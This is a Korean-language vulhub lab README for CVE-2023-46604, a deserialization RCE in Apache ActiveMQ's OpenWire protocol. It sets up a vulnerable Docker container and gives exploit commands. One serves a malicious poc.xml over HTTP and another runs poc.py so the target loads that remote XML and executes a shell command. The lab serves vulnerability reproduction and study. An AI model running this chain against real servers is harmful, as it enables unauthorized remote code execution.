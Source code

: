 # Apache ActiveMQ OpenWire Protocol Deserialization RCE (CVE-2023-46604)

[원문(English version)](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2023-46604/README.md)

Apache ActiveMQ는 미국 Pachitea(Apache) 소프트웨어 재단에서 개발한 오픈 소스 메시징 미들웨어로 자바 메시징 서비스, 클러스터링, 스프링 프레임워크 등을 지원합니다.

OpenWire 프로토콜은 ActiveMQ에서 여러 다른 언어 및 플랫폼에서 ActiveMQ에 대한 네이티브 액세스를 허용하도록 설계되었습니다. Apache ActiveMQ 5.18.2 이전 버전은 역직렬화 취약성의 영향을 받았습니다. 이 취약성은 네트워크 액세스 권한을 가진 원격 공격자가 OpenWire 프로토콜의 직렬화된 클래스 유형을 조작하여 임의의 셸 명령을 실행하여 에이전트의 클래스 경로에 있는 모든 클래스를 인스턴스화할 수 있도록 할 수 있습니다.

참고 문헌:

- <https://activemq.apache.org/news/cve-2023-46604>
- <https://xz.aliyun.com/t/12929>
- <https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/>
- <https://forum.butian.net/share/2566>

## 환경 설정

ActiveMQ는 다음 2개의 포트를 수신합니다:

| 기본 포트     | 기본 조건                             |
|--------------|--------------------------------------|
| 8161 (web)   | 원격 액세스에는 구성이 필요함           |
| 61616 (tcp)  | 원격 액세스 허용                       |

포트 61616에 병렬화 문제가 있습니다.

ActiveMQ 5.17.3 서버를 실행하려면 다음 명령을 입력합니다:

```
docker compose up -d
```

61616번 포트만 사용하면 되지만 악용 전에 서비스가 성공적으로 시작되었는지 확인하려면 `http://your-ip:8161`에 접속하십시오.

## Exploit

Python3 http.server 모듈을 사용하여 [poc.xml](poc.xml) 파일이 있는 폴더에서 HTTP 서버를 빠르게 시작할 수 있습니다:

```shell
python3 -m http.server 6666
```

Then execute the [poc.py](poc.py):

```shell
python3 poc.py target port http://ip of http server/poc.xml
```

다음 명령을 사용하여 ActiveMQ 컨테이너 내부를 확인할 수 있습니다:

```
docker exec cve-2023-46604-activemq-1 ls -l /tmp
```

touch /tmp/activeMQ-RCE-success가 성공적으로 실행되었음을 보여 줍니다.

![01.png](01.png)